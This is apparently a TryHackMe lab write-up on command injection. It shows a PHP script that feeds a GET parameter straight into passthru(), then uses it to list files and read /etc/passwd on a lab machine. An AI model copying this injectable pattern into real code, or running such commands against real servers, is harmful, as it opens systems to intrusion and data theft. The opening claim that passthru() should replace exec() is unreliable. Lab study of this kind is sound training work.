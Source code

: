 # 01. Command injection practical

[Part 1. Before we start]

The passthru() function is similar to the exec() function in that it executes a command. This function should be used in place of exec() or system() 

[Part 2. Command injection]

Target: http://10.10.27.205/evilshell.php

My TryHackMe IP address using openvpn is: 10.4.65.8

- In file evilshell.php:

```php
if (isset($_GET["commandString"])) {
// var get value from param commandString 
    $command_string = $_GET["commandString"];
                        
    try {
//[?] execute the command 
        passthru($command_string);
    } catch (Error $error) {
        echo "<p class=mt-3><b>$error</b></p>";
    }
}
```

- pwd && lsb_release -a  shows that we are in the dir /var/www/html of ubuntu os

```
/var/www/html 
Distributor ID: Ubuntu Description: Ubuntu 18.04.4 LTS Release: 18.04 Codename: bionic 
```

1) What strange text file is in the website root directory?

- Firstly, we use ls to list all files or folders in the dir:

```
// we can see the file drpepper.txt right because it's the only txt file here 
css drpepper.txt evilshell.php index.php js 
```

- cat drpepper.txt: I love Dr Pepper

**Result:** drpepper.txt

2)  How many non-root/non-service/non-daemon users are there?

- In this case, we can cat /etc/passwd to show all users

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
........
lxd:x:105:65534::/var/lib/lxd/:/bin/false
........
```
